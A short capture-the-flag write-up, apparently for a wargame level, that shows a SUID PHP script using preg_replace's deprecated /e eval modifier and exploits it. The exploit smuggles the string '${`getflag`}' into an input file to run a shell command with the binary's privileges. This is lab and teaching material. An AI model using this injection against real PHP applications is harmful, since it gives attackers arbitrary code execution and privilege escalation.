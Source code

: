 Level 06 have *SUID* bit
`-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06`

```php
#!/usr/bin/php

function y($m) { 
    $m = preg_replace("/\./", " x ", $m); 
    $m = preg_replace("/@/", " y", $m); 
    return $m; 
}
function x($y, $z) { 
    $a = file_get_contents($y); 
    # Eval le contenue de [x...]
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
    $a = preg_replace("/\[/", "(", $a); 
    $a = preg_replace("/\]/", ")", $a); 
    return $a; 
}
$r = x($argv[1], $argv[2]); 
print $r;
```

Following this documentation: https://wiki.php.net/rfc/remove_preg_replace_eval_modifier 
The modifier eval is vulnerable to arbitrary code execution by passing the string 
```
${`command`}
```

The PHP code can be exploited with:
```bash
echo '[x ${`getflag`}]' > /tmp/t
./level06 /tmp/t
```




